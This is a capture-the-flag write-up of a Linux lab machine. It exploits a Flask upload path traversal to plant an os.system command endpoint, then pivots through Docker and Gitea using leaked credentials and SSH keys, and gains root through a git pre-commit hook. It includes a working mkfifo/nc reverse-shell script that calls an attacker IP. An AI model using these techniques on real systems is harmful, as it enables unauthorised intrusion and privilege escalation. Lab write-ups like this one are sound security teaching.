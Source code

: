 # OpenSource

## Gaining Access

Nmap scan results:

<figure><img src="../../../.gitbook/assets/image (8) (1) (4).png" alt=""><figcaption></figcaption></figure>

Take note of port 3000, it will be important later!&#x20;

### Overwrite for RCE

This website was a file sharing application where we could upload files:

<figure><img src="../../../.gitbook/assets/image (5) (1) (3).png" alt=""><figcaption></figcaption></figure>

Interestingly, we were allowed to download the entire repository here:

<figure><img src="../../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

The `source.zip` file also contained a `.git` repo that we could analyse later.

Since this looks like a Flask application, we can check the `views.py` file to view the endpoints that are accessible.

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

So this program would get a file via POST, and then upload it to the `uploads/` directory. The problem is, the `file_name` parameter is unsanitised, meaning that we could potentially use this to **overwrite the existing files**. With this knowledge, what we can do is add some more code to this views.py.

In this case, we can add an `/exec` endpoint who's function is to execute commands we send:

```python
@app.route('/exec')
def runcmd():
    return os.system(request.args.get('cmd'))
```

Then, we can attempt to upload this file onto the server. We would need to intercept the response and change the file name to `../../app/app/views.py`. Since the filename is simply appended at the back of `uploads/`, this would cause the new file to be put at `uploads/../../app/views.py`. The directories are based on the source code I downloaded.

When we intercept and change the name of the file, we would be able to access our new endpoint. We can confirm RCE through a simple ping command:

<figure><img src="../../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can gain a reverse shell via the `mkfifo` command into a Docker Container.

<figure><img src="../../../.gitbook/assets/image (61) (2).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Within this container, we can see other foreign addresses that are around:

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

172.17.0.1 was another address that was present on the host.

### .git Analysis

I couldn't find much from the container, so I went ahead with enumerating the git repository in hopes of finding some passwords when scanning through the logs.

By using `git log`, I was able to find some credentials for anotehr application elsewhere.

<figure><img src="../../../.gitbook/assets/image (38) (3).png" alt=""><figcaption></figcaption></figure>

Earlier, we found port 3000 to be inaccessible from our host. From the docker however, it could be accessed. I downloaded `chisel` onto the container and forwarded port 3000.&#x20;

### Gitea&#x20;

When this port was accessed, it was a Gitea instance:

<figure><img src="../../../.gitbook/assets/image (57) (2).png" alt=""><figcaption></figcaption></figure>

Signing into Gitea with the credentials we found earlier works.

<figure><img src="../../../.gitbook/assets/image (1) (1) (8).png" alt=""><figcaption></figcaption></figure>

Notice that there's a home-backup repo, and within it are the user's SSH keys:

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

We can then the SSH keys to gain access to the `dev01` user.

## Privilege Escalation

LinPEAS didn't reveal a lot to me, so I opted for `pspy64` to view the processes.

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

I saw this process run by root:

<figure><img src="../../../.gitbook/assets/image (3) (1) (5).png" alt=""><figcaption></figcaption></figure>

Every minute or so, it seems that this git repository is being updated on the Gitea instance. Based on GTFOBins, **git hooks** can be abused here to execute any script we want.

### Git Hooks Abuse

To abuse this, first we need to create a quick script for a reverse shell.&#x20;

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.10.16.3 4444 > /tmp/f
```

Afterwards, we just need to name this script `pre-commit` and place it within the `~/.git/hooks` folder.

<figure><img src="../../../.gitbook/assets/image (17) (4).png" alt=""><figcaption></figcaption></figure>

After a few minutes, a listener port should catch a shell:

<figure><img src="../../../.gitbook/assets/image (86) (1).png" alt=""><figcaption></figcaption></figure>

